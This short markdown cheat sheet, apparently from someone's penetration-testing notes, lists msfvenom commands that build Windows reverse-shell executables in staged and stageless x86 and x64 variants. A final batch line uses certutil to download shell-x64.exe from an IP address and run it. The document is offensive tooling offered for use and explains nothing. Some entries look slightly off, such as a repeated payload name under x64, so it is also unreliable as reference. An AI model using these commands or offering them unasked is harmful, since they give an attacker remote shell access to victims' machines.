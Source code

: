 # msfvenom
## staged payloads for windows
### x86
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```
### x64
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## stageless payloads for windows
### x86
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```
### x64
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

# Batch file
```
certutil.exe -f -urlcache -split http://192.168.45.232:8000/shell-x64.exe c:\windows\temp\reverse.exe && cmd.exe c:\windows\temp\reverse.exe
```